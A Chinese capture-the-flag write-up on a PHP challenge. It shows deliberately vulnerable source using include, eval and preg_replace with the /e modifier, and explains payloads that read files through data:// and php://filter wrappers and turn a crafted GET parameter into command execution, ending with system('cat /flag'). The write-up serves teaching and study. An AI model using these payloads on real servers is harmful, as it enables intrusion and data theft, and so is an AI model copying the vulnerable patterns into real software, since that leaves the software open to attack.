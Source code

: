 源代码

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

可以直接伪协议过第一步，再读取 next.php

```payload
?text=data://text/plain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php
```

**next.php** 源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

```

没看懂怎么样才能够命令执行，没有地方调用了 `getFlag()` 函数，看了其他师傅的文章才知道是 `preg_replace` 里面的 `/e` 模式正则的命令执行漏洞。

关注一下 `preg_replace` 部分的代码

```php
function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```

**preg_replace** 函数在匹配到符号正则的字符串时，会将替换字符串（也就是 **preg_replace** 函数的第二个参数）当做代码来执行

然而这里的第二个参数却固定为 `'strtolower("\\1")'` 字符串，那这样要如何执行代码呢？

上面的命令执行，相当于 **eval('strtolower("\\1");')** 结果，当中的 **\\1** 实际上就是 **\1** ，而 **\1** 在正则表达式中有自己的含义。我们来看看 [**W3Cschool**](https://www.w3cschool.cn/zhengzebiaodashi/regexp-syntax.html) 中对其的描述：

**反向引用**

对一个正则表达式模式或部分模式 **两边添加圆括号** 将导致相关 **匹配存储到一个临时缓冲区** 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。

所以这里的 `\1` 实际上指定的是第一个子匹配项，我们拿 **ripstech** 官方给的 **payload** 进行分析，方便大家理解。官方 **payload** 为： `/?.\*={${phpinfo()}}` ，即 **GET** 方式传入的参数名为 `/?.`，值为 `{${phpinfo()}}` 。

```
原先的语句： preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
变成了语句： preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```

> 但是这样子也存在问题，上面的 **preg_replace** 语句如果直接写在程序里面，当然可以成功执行 **phpinfo()** ，然而我们的 **.\*** 是通过 **GET** 方式传入，你会发现无法执行 **phpinfo** 函数
>
> 

我们 `var_dump` 一下 `$_GET` 数组，会发现我们传上去的 `.\*` 变成了 `_\*` 

经过 fuzz 后发现当非法字符为首字母时，只有点号会被替换成下划线：

所以我们要做的就是换一个正则表达式，让其匹配到 `{${phpinfo()}}` 即可执行 `phpinfo` 函数。这里我提供一个 **payload** ： `\S\*=${phpinfo()}` 是可以成功执行的。

那么这样一来，我们就可以调用 `getFlag()` 函数了

目前的 payload 为

```payload
?text=data://text/plain,I have a dream&file=next.php&\S*=${getFlag()}&cmd=xxx
```

命令执行

```
?text=data://text/plain,I have a dream&file=next.php&\S*=${getFlag()}&cmd=system('cat /flag');
```

下面再说说我们为什么要匹配到 **{${phpinfo()}}** 或者 **${phpinfo()}** ，才能执行 **phpinfo** 函数，这是一个小坑。这实际上是 [PHP可变变量](http://php.net/manual/zh/language.variables.variable.php) 的原因。在PHP中双引号包裹的字符串中可以解析变量，而单引号则不行。 **${phpinfo()}** 中的 **phpinfo()** 会被当做变量先执行，执行后，即变成 **${1}** (phpinfo()成功执行返回true)。如果这个理解了，你就能明白下面这个问题：

```
var_dump(phpinfo()); // 结果：布尔 true
var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'

var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
```